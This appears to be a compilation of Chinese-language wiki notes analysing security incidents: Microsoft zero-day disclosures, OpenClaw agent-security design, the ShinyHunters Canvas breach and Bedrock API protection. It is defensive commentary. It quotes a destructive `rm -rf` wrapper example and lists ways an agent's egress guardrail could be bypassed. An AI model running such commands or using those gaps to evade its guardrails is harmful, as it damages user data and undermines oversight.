- **真实利用已发生**：Huntress 报告 RedSun 和 UnDefend 的 PoC 代码发布后"迅速被滥用进行真实攻击"。
- **未来威胁**：研究者声称拥有"死人开关"（dead man's switch），警告后续 RCE 披露；专家警告这是针对微软的"升级的报复性战役"。

## 深度分析

### 1. BitLocker 作为"最后防线"的失守

BitLocker 在 Windows 设备安全中扮演**最后防线**的角色——一旦设备丢失或被盗，全盘加密是阻止数据外泄的核心机制。 YellowKey 旁路通过按键序列 + USB 加载绕过这层防线，将"被盗的笔记本"从硬件损失升级为数据泄露事件。

这一漏洞暴露了**单层加密的脆弱性**：
- 加密本身只解决"离线数据读取"问题，不解决"运行时访问"。
- 物理访问 + 启动序列绕过可以打破纯加密假设。
- "可信启动链"（Trusted Boot Chain）的任何一环失守都会传导至整个加密体系。

**安全模型升级路径**：必须将 BitLocker 与 TPM + 预启动 PIN + BIOS/UEFI 密码 + Secure Boot 组合使用，单一 BitLocker 在物理威胁模型下不足够。

### 2. 提权漏洞的"二阶段利用"模式

GreenPlasma 属于典型的**二阶段利用链**中的提权环节。 Bridewell 的 Gavin Knapp 指出：

> "这些提权漏洞常在攻击者获得初始立足点后被武器化，用于发现和收割凭据与数据，然后横向移动到其他系统，最终目标是数据窃取和/或勒索软件部署。"

**关键认识**：单个提权漏洞的 CVSS 分数可能不显眼，但**在攻击链中扮演关键放大器角色**——它把"低权限初始访问"升级为"系统级控制"。安全团队应将 P0 优先级分配给所有本地提权漏洞，因为它们是被武器化最频繁的一类。

### 3. "报复性披露"的产业代价

Nightmare-Eclipse 的披露模式不同于传统的负责任披露——其首次声明"有人违反协议，让他无家可归"，故采取公开施压策略。

**这一事件折射出的产业问题**：

- **披露激励错位**：传统厂商安全响应流程假设研究者合作，但当研究者与厂商关系破裂时，协调机制失效。
- **Patch Tuesday 时机博弈**：研究者在 Patch Tuesday 之后立即披露，意味着所有刚发布的补丁**未覆盖这些漏洞**——这是对微软响应速度的精准施压。
- **真实利用窗口**：Huntress 报告 RedSun/UnDefend 的 PoC"迅速被滥用"，说明从 PoC 发布到武器化的窗口可能短至数天，而非传统的"负责任披露 90 天"。
- **死人开关效应**：研究者声称有"死人开关"——这意味着**威胁是持续性的**，企业必须建立不依赖单一厂商响应速度的安全基线。

### 4. AI Agent 部署对漏洞响应的新要求

虽然本文不直接讨论 AI Agent，但漏洞标签中的 `cloud-computing` 和 `government` 暗示这些漏洞可能涉及企业自托管 AI Agent 的运行基础设施。

**对 AI Agent 部署的启示**：

- AI Agent 继承运行用户的完整系统权限——能读写文件、执行命令、调用 API。传统 Web 应用的"边界防御"模型对 Agent 系统完全失效。
- 企业自托管场景下，**凭证管理**（API keys、bot tokens、OAuth 凭据分散）是最大的攻击面放大器。
- **提示注入**是 AI Agent 特有的攻击向量——攻击者可以通过文档、邮件、网页内容向 Agent 注入恶意指令。
- 数据主权和合规要求（越南、政府云）在漏洞响应中成为重要考量维度。

### 5. 安全研究的激励结构失灵

Nightmare-Eclipse 事件揭示了安全研究激励结构的深层问题：

- **前 Microsoft 员工的身份猜测**反映了大厂安全团队的人员流失风险——内部知识一旦外溢，攻击面会大幅扩大。
- **"报复性披露"的存在**说明当研究者认为传统披露通道失效时，他们会自创更激进的发布机制。
- **真实利用已发生**意味着社区需要重新审视"是否应该发布完整 PoC"这一长期争议。

**对企业的实际含义**：
- 不能假设 PoC 不会到达攻击者手中。
- 必须在架构层假设"漏洞已被利用"，按"assume breach"原则设计纵深防御。
- 需要建立自己的威胁情报收集能力，跟踪 GitHub 上的零日 PoC 仓库（如 Nightmare-Eclipse 的 YellowKey 和 GreenPlasma 仓库）。

## 实践启示

### 1. BitLocker 部署的强制基线

针对 YellowKey 类物理访问威胁，强制启用以下 BitLocker 强化配置：
- **预启动 PIN**：在启动到 Windows 之前要求 PIN 输入。
- **TPM + PIN 组合**：而非仅 TPM（防止 TPM 旁路）。
- **BIOS/UEFI 密码锁**：防止启动顺序被篡改。
- **Secure Boot**：确保启动链完整可信。

### 2. 提权漏洞的优先级管理

将所有本地提权漏洞按 P0 处理，因为：
- 它们是攻击链的关键放大器。
- PoC 代码一旦公开，武器化时间极短。
- 在 AI Agent 时代，Agent 继承的权限可能被这类漏洞放大。

### 3. 建立不依赖厂商响应速度的安全基线

针对报复性披露模式：
- **assume breach 架构**：假设 PoC 已在野利用，从这个前提出发设计。
- **零信任凭证管理**：缩短 API key、token 的生命周期；引入凭据隔离。
- **威胁情报订阅**：跟踪 GitHub、CISA、Huntress 等多源威胁情报，不依赖单一厂商公告。
- **补丁虚拟化**：在 CVE 公开后，先用虚拟补丁（如 WAF 规则、行为阻断）防御，等待官方补丁。

### 4. AI Agent 场景的纵深防御

- **最小权限原则**：Agent 运行时使用专用低权限账户，仅在必要时申请提权。
- **网络隔离**：Agent 运行环境与核心业务系统隔离。
- **输入过滤**：对 Agent 处理的所有外部输入（文档、网页、邮件）做提示注入检测。
- **审计日志**：所有 Agent 动作记录完整审计链，便于事后取证。

### 5. 应对持续性威胁

研究者的"死人开关"机制意味着威胁是**持续性的**而非单点事件：
- 不要把漏洞响应当作一次性事件，而要建立**持续监控机制**。
- 在补丁日建立"补丁后审查"流程，专门识别新披露但未修复的漏洞。
- 跟踪研究者仓库的 watch 通知，第一时间获得 PoC 发布预警。

## 相关实体

- [同事件 TheRegister 主报道](https://github.com/QianJinGuo/wiki/blob/main/entities/microsoft-zero-days-researcher-disgruntled-theregister.md)
- [研究者背景与历史披露](https://github.com/QianJinGuo/wiki/blob/main/entities/disgruntled-researcher-microsoft-zero-days.md)
- [Cisco SD-WAN CVE 类似案例](https://github.com/QianJinGuo/wiki/blob/main/entities/cve-2026-20182-cisco-sd-wan-vhub-bypass.md)
- [VSCode GitHub Token 窃取事件](https://github.com/QianJinGuo/wiki/blob/main/entities/vscode-github-token-stealing-1-click-pwn-ammaraskar-2026.md)
- [金融行业 GenAI 合规](https://github.com/QianJinGuo/wiki/blob/main/entities/基于-prowler-与-genai-构建金融行业智能合规中枢.md)
- [Exaforce Agentic SOC 平台](https://github.com/QianJinGuo/wiki/blob/main/entities/exaforce-agentic-soc-platform-and-mdr.md)

---

## Ch12.028 Disgruntled researcher releases two more Microsoft zero-days

> 📊 Level ⭐⭐ | 10.9KB | `entities/13-disgruntled-researcher-releases-two-more-microsoft-zero-days-5239758.md`

## 核心要点
- Nightmare-Eclipse（又名 Chaotic Eclipse）继 BlueHammer、RedSun、UnDefend 之后，2026 年 5 月 13 日再次发布两个 Microsoft 零日漏洞：YellowKey 和 GreenPlasma
- YellowKey：BitLocker 绕过攻击，物理接触条件下可通过 USB 设备获取 BitLocker 保护机器的无限制 shell 访问
- GreenPlasma：权限提升漏洞，提供 SYSTEM 级别访问，已发布部分利用代码
- 该研究者据称疑似前 Microsoft 员工，自述因"违反协议"而流离失所，动机为报复性披露
- RedSun 和 UnDefend 自 4 月披露至今仍未修复，且已被真实攻击者采用
- 安全专家 Rik Ferguson 警告：YellowKey 若成立，被盗笔记本从硬件问题升级为数据泄露事件

## 深度分析
### 1. 报复性披露模式：从单个漏洞到持续性零日 campaign
Nightmare-Eclipse 的行为模式代表了零日漏洞披露领域的一种新威胁类型：持续的、针对性的报复性披露。与传统白帽私下报告后协调披露的流程不同，该研究者选择完全公开的技术路线——不仅发布漏洞详情，还附带可用的利用工具。根据安全专家 Rik Ferguson 的评估，这是"一次升级的报复性运动"，并且该研究者声称拥有 dead man's switch，一旦本人失联将自动释放更多漏洞。这意味着简单地切断联系或提起诉讼可能触发更大规模的披露。

Nightmare-Eclipse 的行为代表了一种新兴的安全研究威胁范式：合法的安全研究人员因对厂商的报复性不满，转向公开披露漏洞。这种"越界复仇"模式与传统的黑产攻击或国家支持的攻击者不同，但又比单纯的安全研究更危险——它结合了 **deep knowledge of the target**（深入了解目标）、**emotional motivation**（情绪化动机）、以及缺乏法律约束的特点。

### 2. YellowKey 的战术价值：BitLocker 最后防线的失效
YellowKey 直接绕过了 BitLocker——Windows 设备失窃时最后的数据保护层。攻击者需要物理接触目标设备，将特定文件加载到 USB 设备，通过正确的按键序列即可获得 BitLocker 保护机器的无限制 shell 访问。

Rik Ferguson 的评价一针见血："如果研究者的说法成立，被盗笔记本就不再是硬件丢失问题，而是数据泄露事件"。这直接改变了企业资产失窃的法律和合规后果——从设备丢失成本升级为监管报告义务。

YellowKey 还暗示可能存在 Microsoft 注入的后门，虽然安全专家表示无法根据现有信息验证这一说法，但这种质疑本身反映了用户对厂商的不信任危机。

### 3. 内部人威胁的特殊风险：Microsoft 植入后门的指控
值得注意的是，Nightmare-Eclipse 暗示 YellowKey 可能被用做后门——由 Microsoft 植入。虽然安全专家表示无法根据现有信息验证这一说法，但这一指控本身揭示了内部人威胁的特殊风险：如果该研究者确实曾拥有 Microsoft 内部信息和代码库访问权限，其披露的内容深度和准确性都将超过外部研究人员能达到的水平。

如果内部人员能因不满而报复性披露，企业的安全边界已经从网络延伸到员工关系管理。可信供应链假设需要重新审视。

### 4. GreenPlasma 的武器化路径：从部分 PoC 到完整利用
GreenPlasma 目前只发布了部分利用代码而非完整 PoC，当前版本会触发默认 Windows 配置下的 UAC consent 提示。这意味着攻击者还需要进一步武器化才能实现静默利用——但 Bridewell 网络威胁情报主管 Gavin Knapp 指出，权限提升漏洞通常在攻击者获得初始立足点后使用，用于凭证窃取和横向移动。即使 GreenPlasma 目前还不完美，它已经是攻击者工具箱中的关键组件。

历史案例表明，RedSun 和 UnDefend 的 PoC 代码在公开后迅速被攻击者武器化并在真实攻击中使用。这意味着 GreenPlasma 的完整利用可能只是时间问题。

### 5. 披露时机的战术选择：Patch Tuesday 后的窗口期
2026 年 5 月 12 日刚完成 Microsoft 月度 Patch Tuesday，5 月 13 日即发布新漏洞——这一 timing 选择表明攻击者对 Microsoft 的响应流程有深刻理解。选择在厂商完成一轮密集修复后披露，让安全团队处于被动状态：要么等待下一个修复窗口，要么在已知风险的情况下继续运营。

这是一种刻意的战术选择：既绕过了大多数企业的集中打补丁窗口，又制造了"补丁真空期"——企业在下一个补丁周期前处于无保护状态。

### 6. AI 辅助漏洞挖掘的新威胁态势
Linus Torvalds 提到 AI 工具造成 Linux 安全邮件列表"几乎无法管理"。同样的工具也在被用于发现 Windows 漏洞，AI 加速的漏洞发现可能使类似 Nightmare-Eclipse 的案例更加频繁。

## 实践启示
### 对企业安全团队
1. **BitLocker 必须启用多因素解锁**：仅依赖 TPM 自动解密的配置不足以防御 YellowKey。必须配置 TPM + PIN 或 TPM + USB 启动密钥，并配合 BIOS/UEFI 密码锁定，防止通过 USB 引导绕过操作系统级保护。
2. **高风险零日不应被动等待补丁**：RedSun 和 UnDefend 在披露后迅速被实际攻击采用，说明"等待厂商补丁"的传统策略存在空窗期。对于已公开的高风险漏洞，应立即评估临时补偿性控制（如网络分段、EMM 策略限制）。
3. **笔记本资产失窃的响应流程需升级**：YellowKey 的实际可行性意味着笔记本丢失不再只是硬件问题，而是潜在数据泄露事件。需要重新审视资产失窃的应急响应流程，包含数据泄露通知的评估步骤。
4. **建立零日公开的应急响应流程**：由于披露时机选择在 Patch Tuesday 后，企业需要建立针对此类"补丁真空期"的专项应急预案。
5. **监控已知 PoC 的武器化状态**：关注 RedSun、UnDefend 等已被武器化的漏洞的利用趋势，评估 GreenPlasma 武器化的可能时间窗口。

### 对个人用户
1. **启用 BitLocker PIN 保护**：不要仅依赖 TPM 自动解锁，添加 PIN 码和 BIOS 密码可以有效阻止 YellowKey 类攻击。
2. **设备丢失后的数据泄露应急响应**：假设最坏情况，建立设备丢失后的账户重置、会话终止、数据泄露评估的标准流程。

### 对安全产品开发者
6. **内部威胁检测和员工权限管理需加强**：供应链安全不仅包括开源依赖，还应覆盖内部工具和员工权限管理。Nightmare-Eclipse 案例表明，具备内部信息访问权限的研究者可以持续多年进行针对性披露。
7. **威胁情报团队应建立 Nightmare-Eclipse 专项监控**：其技术文档质量高、披露节奏稳定、GitHub 和博客基础设施完备，建议纳入持续监控名单，建立基于 IOC 的早期预警机制。

### 对安全行业的结构反思
8. **重新审视厂商与安全研究者的关系**：Nightmare-Eclipse 的背景故事（据称是前 Microsoft 员工，因"协议被违反"而公开报复）提示厂商与研究者之间的信任契约破裂可能是激化冲突的关键。
9. **零日市场与负责任披露的边界**：当研究者认为负责任披露渠道无效时，他们可能转向公开披露来"报复"。建立更有效的厂商-研究者沟通机制可能是减少此类事件的关键。

## 评分
| 维度 | 分数 |
|------|------|
| 知识价值 | 8 |
| 置信度 | 9 |
| 推荐入库 | **strong** |

## 关联阅读
- [Disgruntled researcher releases two more Microsoft zero-days](https://github.com/QianJinGuo/wiki/blob/main/entities/disgruntled-researcher-microsoft-zero-days.md)（综合实体页，含更详细的深度分析和交叉引用）
- [TheRegister 版：Microsoft 零日事件深度分析](https://github.com/QianJinGuo/wiki/blob/main/entities/microsoft-zero-days-researcher-disgruntled-theregister.md) — TheRegister 对 Nightmare-Eclipse 事件的独立报道与安全研究社区的反应
- [原文存档（综合版）](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/disgruntled-researcher-microsoft-zero-days.md)
- [TheRegister 深度分析存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/microsoft-zero-days-researcher-disgruntled-theregister.md)

## 相关实体

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)

---

## Ch12.029 Where OpenClaw Security Is Heading — OpenClaw Blog

> 📊 Level ⭐⭐ | 10.8KB | `entities/where-openclaw-security-is-heading-openclaw-blog.md`

## 核心要点
- **范式转变**：从"验证后获取"到" egress 路由 + 代理策略执行"，Proxyline 负责路由，代理负责策略 enforcement
- **fs-safe**：将文件系统边界检查抽象为可复用原语库，插件和核心代码共用同一套 root-bounded 原语，而非各自实现
- **ClawHub 信任体系**：信任证据直接绑定到特定版本（clean/suspicious/quarantined/malicious），安装路径消费这些信号，而非事后本地检查
- **命令审批的 AST 解析**：Tree-sitter 命令高亮可穿透 `bash -c` 等 wrapper，识别内层实际执行的可执行文件
- **每个 GHSA 转化为一条 OpenGrep 回归规则**：precision-first，噪音规则比无规则更危险
- **SQLite 运行时状态重构**：sessions/transcripts/scheduler state 移入类型化数据库，消除文件系统访问，从根本上缩小攻击面
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/where-openclaw-security-is-heading-openclaw-blog.md)

## 深度分析
### 1. 从"验证"到"执行"：安全控制点的重新定位
传统 Web 安全中，URL 验证发生在请求发出前。但在 Agent 运行时，"fetch this URL because someone asked for it" 本身就是正常产品行为——用户控制或模型影响的 URL 是常态而非异常。这意味着传统验证范式在 Agent 场景下存在根本性失效：DNS 验证时与实际请求时的解析结果可能不同，一个在验证时指向公网 IP 的域名可能在请求时已指向 metadata 端点。
OpenClaw 的回答是将控制点从"验证"移到"egress"。Proxyline 作为 Node 进程级路由层捕获所有出站流量，强制其经过用户配置的代理——而策略 enforcement 发生在代理层，而非 OpenClaw 代码层。这是"路由即策略执行"（routing as enforcement）的设计思路，与传统防火墙在网络层做策略执行并无本质区别，只是搬到了进程内。这种转变的核心价值在于：策略执行不再依赖调用方记得调用验证逻辑，而是流量必然流经策略执行点。
同样的范式转变也出现在文件系统层面：`fs-safe` 不是让每个调用方正确验证路径，而是提供 root-bounded 原语，整个调用树共同使用同一套边界检查逻辑。插件作者无需重新实现边界检查，因为原语层已处理。
**核心洞察**：Agent 安全设计需要将"验证"升级为"执行点重置"——把策略 enforcement 放在调用链必然经过的位置，而非信任调用方正确实现验证。

### 2. Agent 供应链的结构性风险：ClawHub 案例
ClawHub 作为 OpenClaw 的官方 Skill 市场，其安全模型是 Agent 供应链安全研究的重要案例。OpenClaw 承认 ClawHub 上曾出现恶意 Skill 被大规模分发的情况，其回应策略并非封禁所有外部来源，而是构建分层信任体系。
信任信号的来源是多元的：ClawScan、VirusTotal、静态分析、元数据检查、源码溯源和人工审核构成流水线。关键设计决策是**信任证据绑定到特定版本而非包名本身**：同一个 Skill 的不同版本可能处于不同信任状态（clean/suspicious/held/quarantined/malicious），用户安装前可以看到这些信号。若 ClawHub 将某版本标记为 malicious/quarantined，安装路径会直接拒绝下载。
这种设计承认了一个现实：插件可以来自 GitHub、私有 registry 或文件传输，OpenClaw 不假装用户不拥有自己的机器。但安全路径被明确标识为最佳选择——发布在 ClawHub、接受扫描、附加证据，让用户在安装前做出有信息支撑的决策。

### 3. Prompt Fatigue 与上下文感知审批
命令审批系统面临的核心体验问题是 prompt fatigue：提示频率超出用户阅读速度后，用户开启 YOLO 模式继续工作，此时提示已失去安全防护意义——用户已被训练停止阅读提示。
解决方案分为两部分。**解析层面**：Tree-sitter 命令高亮可穿透 `bash -c "rm -rf ~/something"` 等 wrapper，识别内层实际执行的可执行文件。传统字符串匹配无法区分外层 `bash` 和内层 `rm`，但 AST 解析可以。这意味着策略不能只看到最外层命令，必须理解命令链结构。
**决策层面**（更难）：静态审批策略要么提示所有可能风险项（导致 prompt flood），要么依赖固定 allow/deny 列表（无法判断命令是否契合当前任务）。真正的问题是"用户是否希望这件事发生"，这是一个需要任务上下文的判断。OpenAI 的 Auto Review 功能通过引入独立的 reviewer agent 在沙箱边界替代人工审批，是上下文感知审批的一种工程路径。

### 4. 静态分析即可持续安全：GHSA 到 OpenGrep 规则
文章透露 OpenClaw 历史上存在大量 GitHub Security Advisories（GHSA），安全工作的第一个阶段是堵漏洞，更难的是确保同类漏洞不复发。他们的方法是将每个 GHSA 转化为一条 OpenGrep 规则：规则与 advisory、报告或 review 发现绑定，形成可执行的机构记忆。
基线目标是**回归检测**：相同的漏洞模式若重新出现，CI 在 review 前拦截。更高目标是**变体检测**：catch nearby versions of the same mistake——即捕捉同一错误模式的各种近似形式，而非仅限于原始精确匹配。
Precision 是这种体系的核心要求：噪音规则比无规则更危险，因为它训练团队忽略告警频道。当前 OpenGrep 规则库已有 148 条规则，运行在 PR diffs 上。
**元认知层面**：补丁完成不等于安全完成——一个 GHSA 是整个 bug 类的证据，而非单个 bug 的证据。将每个漏洞补丁转化为可执行规则，是将安全知识系统化、机构化的关键步骤。

### 5. 运行时状态重构：减少攻击面而非加固边界
文章提及 SQLite 运行时状态重构（sessions、transcripts、scheduler state、plugin state 移入类型化数据库），其安全动机在于**消除文件系统访问**：最安全的文件系统调用是根本不调用。这是攻击面减少（attack surface reduction）而非边界加固（boundary hardening）的思路——不是让文件系统调用更安全，而是不做文件系统调用。
Loose files 作为运行时状态存储存在的问题：文件可能被篡改、误删、路径遍历、或因权限配置错误暴露。类型化数据库（SQLite）提供清晰的所有权边界、事务支持和结构化查询 。这一方向与 [Skill System Design Three Way Comparison](https://github.com/QianJinGuo/wiki/blob/main/entities/skill-system-design-three-way-comparison.md) 中记录的 ClawHub 恶意 Skill 问题相关——若运行时状态通过文件系统暴露，恶意 Skill 理论上可操纵这些文件。

## 实践启示
### 对 Agent 系统开发者
1. **重新审视 URL/网络验证范式**：在 Agent 运行时，"用户控制的 URL"是常态而非异常，验证时和执行时的 DNS 解析结果可能不同。将 egress 策略执行点移至代理层，而非依赖 OpenClaw 代码层验证 。
2. **构建文件系统边界原语库**：提供 root-bounded 可复用原语供核心代码和插件共用，而非让每个插件各自实现边界检查。确保最不安全的文件系统调用是不存在的那个 。
3. **将 GHSA 视为规则候选**：每次安全补丁都应生成一条对应的可执行回归规则。补丁完成 ≠ 安全完成。

### 对 Agent 用户
1. **优先使用 ClawHub 安装路径**：信任证据（clean/suspicious/quarantined/malicious）直接绑定到版本，安装路径消费这些信号，而非仅依赖本地安装后的检查。ClawHub 官方包 > GitHub/文件传输 。
2. **启用 contextual approval 机制**：当系统支持时，使用上下文感知审批替代简单的 allow/deny 列表——判断依据是"当前任务是否需要此操作"，而非"此命令是否危险" 。
3. **定期运行 `openclaw proxy validate`**：验证配置的代理路由是否正确拦截了 metadata 地址、私有范围和 loopback canaries 。

### 对安全研究者
1. **关注 ClawHub 供应链审计**：截至 2026 年初，ClawHub 上恶意或高风险 Skill 一度超过总量的 20%（参见 ）。信任证据体系的有效性仍待社区验证 。
2. **Proxyline 的绕过面**：文章坦承 raw sockets、native modules、unusual transports 和非 OpenClaw 子进程可能绕过 Node 级 guardrail 。这些是潜在的绕过研究方向。
3. **命令 AST 解析的 PowerShell gap**：OpenClaw 目前对 PowerShell wrapper 的处理是"fail closed for forms we do not understand" ，这意味着 PowerShell 命令的 AST 解析支持尚未完全，是潜在的模糊地带。
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/where-openclaw-security-is-heading-openclaw-blog.md)

## 相关实体
- [OpenClaw Agent 可观测性体系 — Session 审计日志 + OTEL + SLS](https://github.com/QianJinGuo/wiki/blob/main/entities/openclaw-agent-observability-session-logs-otel-sls.md)

- [The Agency Model Dangers](https://github.com/QianJinGuo/wiki/blob/main/concepts/the-agency-model-dangers.md)

---

## Ch12.030 Canvas Breach Disrupts Schools & Colleges Nationwide

> 📊 Level ⭐⭐ | 10.6KB | `entities/canvas-breach-disrupts-schools-colleges-nationwide.md`

# Canvas Breach Disrupts Schools & Colleges Nationwide – Krebs on Security
[](https://www.doppel.com/?utm_source=krebsonsecurity&utm_medium=display&utm_campaign=fy27brandcampaign&utm_content=imitation)
[](https://www.knowbe4.com/training-humans-ai-agents?utm_source=krebs&utm_medium=display&utm_campaign=traininghumansandai&utm_content=bannerai)
[](http://twitter.com/briankrebs)[](https://krebsonsecurity.com/feed/)[](https://www.linkedin.com/in/bkrebs/)
[](https://krebsonsecurity.com/ "Krebs on Security")

## 相关实体
- [Ath Agent Trust Handshake Protocol](https://github.com/QianJinGuo/wiki/blob/main/entities/ath-agent-trust-handshake-protocol.md)
- [Aws Bedrock Agentcore Identity Security](https://github.com/QianJinGuo/wiki/blob/main/entities/aws-bedrock-agentcore-identity-security.md)
- [Github Investigating Teampcp Claimed 17Cc77](https://github.com/QianJinGuo/wiki/blob/main/entities/github-investigating-teampcp-claimed-17cc77.md)
- [Ai Agents Inside Perimeter Hackernews](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-agents-inside-perimeter-hackernews.md)
- [Tsinghua Agent Security Fangcun](https://github.com/QianJinGuo/wiki/blob/main/entities/tsinghua-agent-security-fangcun.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/canvas-breach-disrupts-schools-colleges-nationwide.md)

## 深度分析

### 事件全貌

2026年5月7日，网络犯罪组织 **ShinyHunters** 对广泛使用的教育技术平台 **Canvas** 实施了数据勒索攻击，在其登录页面展示赎金要求，威胁泄露来自近9,000所教育机构的2.75亿学生和教职员工数据。此次攻击导致Canvas服务中断，全国各地学区和高院校的教学工作被迫停顿。

Canvas的母公司 **Instructure** 采取紧急措施禁用平台，该平台为数千万学生、教师和院校提供课程管理、作业分配和沟通服务。

### 攻击时间线与演进

**第一阶段（2026年5月1日）**：ShinyHunters首次展示其已入侵Instructure的证据，宣称窃取了大量数据。

**第二阶段（2026年5月2日）**：Instructure首席信息安全官Steve Proud宣布事件已"被控制"（contained）。

**第三阶段（2026年5月6日）**：Instructure发布声明，承认数据泄露，确认被盗信息包括"某些受影响机构用户的识别信息，如姓名、电子邮件地址和学生ID号码，以及用户之间的消息"。声明同时表示未发现密码、出生日期、政府证件号或财务信息等敏感数据被盗。

**第四阶段（2026年5月7日）**：ShinyHunters发动第三次攻击，在Canvas登录页面展示完整勒索信息，并直接告知各学校应自行谈判赎金。Instructure被迫将平台下线，显示"Canvas目前正在接受计划维护"的提示。

### ShinyHunters组织特征

ShinyHunters是一个高产且灵活的网络犯罪组织，专门从事数据盗窃和勒索活动。该组织通常通过语音钓鱼（vishing）和社会工程攻击获取企业访问权限，冒充IT人员或目标组织的可信成员。

**近期受害者清单**：ADT（550万客户数据）、Medtronic、Rockstar Games、McGraw Hill、7-Eleven、Carnival邮轮公司。

### 历史模式与战略升级

安全公司Cloudskope创始人兼CEO **Dipan Mann** 指出，这是过去八个月内Instructure第三次被ShinyHunters攻破。

关键脉络：

- **2025年9月**：ShinyHunters泄露了宾夕法尼亚大学数千份内部文件（包括捐赠者记录、内部备忘录等），通过Daily Pennsylvanian等媒体确定存在Canvas/Instructure介导的访问路径
- **2026年2月**：ShinyHunters告知The Daily Pennsylvanian，宾大未能支付100万美元赎金要求
- **2026年3月5日**：ShinyHunters发布从宾大窃取的461MB数据，包括数千份捐赠者记录和内部备忘录
- **2026年5月1日**：生产级攻击启动
- **2026年5月7日**：公开再劫持，证明5月2日的"控制"声明完全失效

Mann的结论是："宾大是命名受害者，Instructure是攻击机制。当时大多数国家媒体将此事视为宾大特定事件处理，Instructure也将其作为客户特定事项低调处理。这个框架当时就是错误的。在2026年5月的事件背景下更加错误——这看起来像是ShinyHunters至少八个月来针对Instructure环境策划的攻击模式的计划性升级。2025年9月的宾大泄露是概念验证。2026年5月1日的事件是生产运行。2026年5月7日的再劫持是ShinyHunters公开证明5月2日的'控制'并未发生。"

### 企业响应失当分析

**危机沟通失败**：Mann严厉批评Instructure在状态页上将当日中断描述为"计划维护"。

关键问题：

- status.instructure.com运行在Statuspage（Atlassian）基础设施上，与canvas.instructure.com独立
- 维护消息发布在学生正被重定向到的赎金页面所在的表面
- 状态页确认则发布在IT团队最终会检查的表面
- 截至事件发生时，status.instructure.com仍显示"今日无事故报告"，Canvas LMS仍标记为"运营中"

**私有化与安全投入**：Instructure于2024年被KKR收购私有化。多位评论者质疑新东家是否削减了"不必要的"安全支出。

### 行业影响与脆弱性

**攻击时机**：正值众多受影响学校和大学处于期末考试期，延长中断将对公司造成重大损害。

**数据敏感性讨论**：虽然Instructure声称被盗数据不包含高度敏感信息，但评论指出Canvas被K-12广泛使用，存储了关于儿童的敏感信息。一位评论者指出，学生ID号可被用来获取学生的几乎任何信息：财务、人口统计学、地址、电子邮件、电话、社交媒体等。

### Mandiant评估

Google旗下Mandiant Consulting首席技术官Charles Carmakal表示："目前有多个并发且独立的ShinyHunters入侵和勒索活动正在进行中"。

## 实践启示

### 对教育机构的启示

**1. 重新评估单一供应商依赖**
此次事件暴露了教育机构对Canvas的深度依赖所带来的系统性风险。院校应评估建立备份通信渠道的可行性，以便在主平台不可用时维持教学连续性。

**2. 供应商安全审计**
在选择EdTech供应商时，应将其安全成熟度（包括事件响应历史）作为关键评估标准。KKR收购后Instructure安全状况的变化值得关注。

**3. 事件响应沟通准备**
Cloudskope的分析表明，Instructure的问题之一是在沟通中使用了"已解决"、"已控制"等乐观表述，而实际威胁并未消除。院校应建立直接确认机制，不依赖供应商的单方面声明。

### 对企业的启示

**1. 私有化不等于安全削减**
Instructure被KKR私有化后不到两年即遭受第三次重大入侵。这表明私募股权收购后的成本削减措施可能直接影响安全投入。

**2. "已控制"声明的风险**
在多阶段持续性攻击中，提前宣布"已控制"可能给攻击者提供虚假的安心感，同时削弱后续应对措施的紧迫性。安全团队应避免在完整取证完成前做出确定性声明。

**3. 社会工程防御的紧迫性**
ShinyHunters使用语音钓鱼和社会工程攻击获取初始访问。这再次证明了员工安全意识培训的紧迫性，即使是拥有SOC 2认证的组织也需要持续的人员安全投资。

### 对安全行业的启示

**1. 多阶段攻击模式识别**
Cloudskope对ShinyHunters攻击模式的追踪表明，2025年9月的宾大事件和2026年5月的事件是同一攻击活动的不同阶段。这强调了安全研究者持续监控和关联分析的必要性。

**2. 供应链攻击的长期性**
教育供应商作为供应链攻击的入口，其安全状况直接影响成千上万的机构。行业需要建立更好的信息共享机制，使下游客户能够及时了解供应商的安全事件。

**3. 状态页公信力维护**
Instructure在状态页上显示"无事故"而实际平台已被赎金页面替换，这一反差严重损害了其公信力。组织应确保状态页实时反映实际服务状态。

---

## Ch12.031 别让你的 Amazon Bedrock 模型为他人打工——API 调用安全防护指南

> 📊 Level ⭐⭐ | 10.6KB | `entities/amazon-bedrock-api-security-guide.md`

> → [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/amazon-bedrock-api-security-guide.md)

## 摘要
Amazon Bedrock 模型调用安全防护指南，涵盖凭证管理、访问控制、持续监控三个层面。

## 要点
- IAM Role + AssumeRole 分层授权
- IP 限制、VPC Endpoint、SCP 组织级管控
- CloudWatch Budgets 费用告警

## 深度分析
### 凭证管理的本质：信任边界的设计
这篇文章的核心观点是"凭证泄露不等于权限泄露"——这是一个经典的纵深防御思想在云原生场景下的落地。传统 AWS 服务的安全模型建立在这样的假设上：资源的异常使用会伴随可观测的特征（如异常实例类型、CPU 飙升）。但 Bedrock 调用没有这种"副作用"——攻击者和正常用户的 API 请求在形式上完全一致，这使得传统的异常检测机制失效。
AssumeRole 分层模式的价值在于将身份认证和业务授权解耦。初始凭证（AK/SK）只能执行 AssumeRole，这意味着即使它被窃取，攻击者拿到的只是一个"半成品"——还需要通过信任策略的第二道关卡（IP 限制、时间条件等）才能获得实际的业务权限。

### Bedrock 的风险特征：为何它比 EC2/S3 更脆弱
从风险矩阵来看，Bedrock 具备三个使其成为攻击者优选目标的特征：
1. **即时变现能力**：攻击者不需要部署任何基础设施，直接调用模型能力即可转售获利。相比之下，滥用 EC2 需要"挖矿"或"肉鸡"这样的二次变现环节。
2. **无资源预置**：传统服务的攻击（如被拿来做 DDoS）需要创建大量实例，而 Bedrock 调用是纯 API 行为，无需基础设施。
3. **费用累积极快**：数小时内可能产生数万甚至数十万美元的费用，攻击窗口极短，传统的月度账单审查根本来不及反应。
这意味着安全策略必须假设"防线可能被突破"，而非单纯依赖预防。监控体系的重要性在此背景下凸显——Budgets 作为兜底防线，CloudWatch 作为近实时告警，两者结合才能覆盖不同响应时效需求。

### 访问控制的层次：从 IAM Policy 到 SCP
文章构建了三层访问控制体系：

